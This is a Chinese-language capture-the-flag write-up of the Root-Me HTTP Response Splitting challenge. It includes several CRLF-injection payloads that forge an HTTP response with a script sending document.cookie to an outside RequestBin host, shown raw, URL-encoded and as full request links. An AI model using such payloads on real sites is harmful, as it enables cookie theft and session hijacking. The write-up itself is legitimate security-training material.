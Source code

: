 Root-Me [HTTP Response Splitting](https://www.root-me.org/fr/Challenges/Web-Client/HTTP-Response-Splitting)
===

該題進入頁面就是要你選擇語言。  
![](img/01.png)  

## 解題關鍵
1. HTTP Response Splitting（HRS）
2. JavaScript

## 解題方法
該題查了資料，了解什麼是 HRS，簡單的說就是透過截斷字元，透過 `Requests` 來讓瀏覽器以為已經收到 `Response`，參考文獻如下。  
[HTTP splitting攻擊原理說明](https://www.qa-knowhow.com/?p=842)

條件上是符合的，有 302 轉跳頁面（語系選擇），便在請求後方構造惡意的頁面內容即可。  

![](img/02.png)  

構造方法是參考上方連結的文獻內容。  

```
en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Thu, 01 Jan 2020 12:00:00 GMT
Content-Length: 124


<h1>Hello World</h1><script>document.location="http://requestbin.fullcontact.com/1juiijh1?".concat(document.cookie)</script>
```

隨後透過 URLencode 編碼。  

```
en%0A%0AContent-Length%3A%200%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202020%2012%3A00%3A00%20GMT%0AContent-Length%3A%20123%0A%0A%3Ch1%3EHello%20World%3C%2Fh1%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2Frequestbin.fullcontact.com%2F1juiijh1%22.concat%28document.cookie%29%3C%2Fscript%3E
```

請求連結  

```
http://challenge01.root-me.org:58002/user/param?lang=en%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%20103%0A%3Cscript%3Edocument.location%3D%22http%3A%2F%2Frequestbin.fullcontact.com%2F1juiijh1%22.concat%28document.cookie%29%3C%2Fscript%3E
```

結果就爆炸了

![](img/03.png)  

失敗了好一陣子之後，才知道換行符號除了 `%0A` 還要加上 `%0D`，變成 `%0D%0A`，Payload 如下。  

```
http://challenge01.root-me.org:58002/user/param?lang=
en
%0D%0AContent-Length%3A%200
%0D%0A
%0D%0AHTTP%2F1.1%20200%20OK
%0D%0AContent-Type%3A%20text%2Fhtml
%0D%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202050%2012%3A00%3A00%20GMT%20
%0D%0AContent-Length%3A%20124
%0D%0A
%0D%0A%3Ch1%3EHello%20World%3C%2Fh1%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2Frequestbin.fullcontact.com%2F1ojpqzx1%3f%22.concat%28document.cookie%29%3C%2Fscript%3E
```

確認頁面有轉跳之後，到 `RequestBin` 查看回傳結果。  

![](img/04.png)  

首先可以確認資料是有進來的，但如何讓 `admin` 上鉤...，目前已經確認汙染 `/`、`/home` 兩個路徑，但 `admin` 還是屬於 `401 Unauthorized` 狀態，若管理者沒有瀏覽 `/`、`home` 頁面的話，那便偷不到 Cookie...。  


發現問題，如果使用 `Brup Suite` 送 Payload 並不會有任何反應，這部分在 `Chrome`、`Firefox` 上得到驗證。  

原先想說是透過 `Burp Sutie` 進行攔截，轉跳時將 URL 變更為 `/admin` 但顯然，只要使用 `Burp Sutie` Payload 就會失效...，該題使用 `Chrome`、`Firefox`、`Brave`、`IE11`、`Edge` 解題，都沒結果，只好果斷放棄了，不過解題的攻擊手法應該是沒錯的QQ。  

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)